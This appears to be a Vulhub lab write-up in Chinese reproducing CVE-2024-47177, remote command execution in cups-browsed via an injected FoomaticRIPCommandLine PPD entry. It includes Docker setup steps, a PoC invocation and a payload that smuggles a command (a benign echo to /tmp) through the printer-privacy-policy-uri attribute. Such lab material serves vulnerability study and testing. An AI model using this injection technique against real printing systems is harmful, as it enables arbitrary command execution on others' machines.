



# OpenPrinting Cups-Browsed PDD FoomaticRIPCommandLine 参数导致远程命令执行漏洞（CVE-2024-47177）

OpenPrinting CUPS（通用Unix打印系统）是为类Unix操作系统开发的开源打印系统。它允许计算机充当打印服务器，高效管理本地和网络打印机。Cups-Browsed是CUPS系统的一部分，是一个专门用于浏览网络上其他CUPS服务器共享的远程打印机的守护进程。它可以自动发现和配置网络打印机，让用户更容易访问和使用网络上共享的打印资源，无需手动设置。

在Cups-Browsed 2.0.1及之前的版本中，存在一个由PPD（PostScript打印机描述）文件中的`FoomaticRIPCommandLine`参数处理不当引起的问题。攻击者可以通过创建一个恶意的IPP（互联网打印协议）服务器来利用这个漏洞，向易受攻击的Cups-Browsed实例发送精心制作的打印机信息，然后在运行易受攻击的Cups-Browsed的系统上执行任意命令。

参考链接：

- <https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/>
- <https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8>

## 漏洞环境

执行如下命令启动一个2.4.7版本CUPS服务器和2.0.1版本Cups-Browsed服务器：

```
docker-compose up -d
```

环境启动后，可以通过`http://<your-ip>:631`访问CUPS的web界面。

## 漏洞复现

首先，下载[evil-ipp-server](https://github.com/vulhub/evil-ipp-server)项目并运行[poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py):

```
python poc.py [evil-ipp-server-ip] [target-ip]
```

这个脚本会在`[evil-ipp-server-ip]`上启动一个恶意的IPP服务器，并向目标机器`[target-ip]`上的Cups-Browsed服务发送一个UDP数据包。

一旦Cups-Browsed接收到请求，它将尝试连接到恶意的IPP服务器并。IPP服务器会返回精心构造的`printer-privacy-policy-uri`属性，该属性中包含恶意payload，其结构如下：

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

然后，Cups-Browsed会在`/tmp/`目录下创建一个临时PPD文件，我们的payload会被注入到这个文件中。下图是相关的Cups-Browsed日志：



此时，命令还未执行，因为我们需要至少一个打印任务来触发命令的执行。

打印任务可能来自于正常用户，也可以来自攻击者。如果TCP 631端口开放，我们可以使用浏览器访问，并找到刚才增加的恶意IPP打印机，并创建一个“打印测试页面”的打印任务。



任务执行后，进入容器即可发现，`echo 1 > /tmp/I_AM_VULNERABLE`命令已经成功执行：


